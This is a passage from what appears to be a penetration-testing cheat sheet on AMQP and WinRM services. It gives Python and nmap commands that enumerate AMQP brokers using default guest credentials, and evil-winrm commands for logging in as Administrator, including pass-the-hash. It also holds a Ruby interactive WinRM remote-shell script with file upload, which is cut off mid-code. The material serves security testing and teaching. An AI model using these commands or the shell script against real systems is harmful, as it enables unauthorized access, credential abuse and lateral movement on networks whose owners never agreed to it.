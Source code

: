 ```python
import amqp
#By default it uses default credentials "guest":"guest"
conn = amqp.connection.Connection(host="<IP>", port=5672, virtual_host="/")
conn.connect()
for k, v in conn.server_properties.items():
    print(k, v)
```
```bash
# Automatic
nmap -sV -Pn -n -T4 -p 5672 --script amqp-info $IP
```

### Port 5985 / 5986 - WinRM

5985/tcp (HTTP)
5986/tcp (HTTPS)

```bash
gem install evil-winrm

evil-winrm -i $IP -u Administrator -p 'password1'

# Pass the hash with evil-winrm
evil-winrm -i $IP -u Administrator -H 'hash-pass'
```

```ruby
#Code extracted from here: https://alamot.github.io/winrm_shell/
require 'winrm-fs'

# Author: Alamot
# To upload a file type: UPLOAD local_path remote_path
# e.g.: PS> UPLOAD myfile.txt C:\temp\myfile.txt


conn = WinRM::Connection.new(
  endpoint: 'https://IP:PORT/wsman',
  transport: :ssl,
  user: 'username',
  password: 'password',
  :no_ssl_peer_verification => true
)


class String
  def tokenize
    self.
      split(/\s(?=(?:[^'"]|'[^']*'|"[^"]*")*$)/).
      select {|s| not s.empty? }.
      map {|s| s.gsub(/(^ +)|( +$)|(^["']+)|(["']+$)/,'')}
  end
end


command=""
file_manager = WinRM::FS::FileManager.new(conn)


conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets
        if command.start_with?('UPLOAD') then
```